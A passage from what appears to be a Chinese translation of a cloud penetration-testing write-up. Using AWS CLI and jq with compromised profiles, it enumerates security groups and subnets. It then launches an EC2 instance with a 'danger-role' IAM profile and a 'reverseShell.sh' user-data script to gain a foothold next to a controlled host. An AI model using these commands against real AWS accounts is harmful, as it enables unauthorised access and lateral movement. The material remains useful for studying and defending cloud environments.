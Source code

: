我们可以从输出中看到有 175 个安全组，并且它们没有遵循一个有组织的命名法。出于安全原因，我不能上传描述，但让我告诉你，他们是一团糟。我们可以开始一个一个地列举它们，但是也许我们可以想出一个更好的方法。

如果我们使用与我们已经控制的实例相同的参数会怎么样？通常，群集在一起的实例允许相互通信。如果我们使用同一个安全组会怎么样？我们可以使用以下命令通过实例的私有 IP 查询实例信息:

```
aws --profile test2 ec2 describe-instances | jq -r '.Reservations[].Instances[] | select(.PrivateIpAddress | contains("10.0.0.17")) | .SecurityGroups
```

![](img/d55dc46d84ada5c5cbfbee3c56953342.png)

(两个安全组匹配)

让我们试试这个安全组:

```
aws --profile data2 ec2 run-instances --image-id ami-d05e75b8 --instance-type t1.micro --iam-instance-profile Name=danger-role --user-data file://reverseShell.sh --security-group-ids "sg-42esa23f"
```

![](img/7613dd9bbb19566cc9b07043157f78a2.png)

没错。我们正在尝试启动一个实例，但不将其放在特定的子网上(非 VPC 启动)。为了使用 VPC 安全组，我们需要指定与我们控制的实例相同的子网 id。让我们再次查询它

```
aws --profile test2 ec2 describe-instances | jq -r '.Reservations[].Instances[] | select(.PrivateIpAddress | contains("10.12.1.17")) | .SubnetId, .SecurityGroups'
```

![](img/ce98b06a91c5b07606f13c6aab2a1335.png)
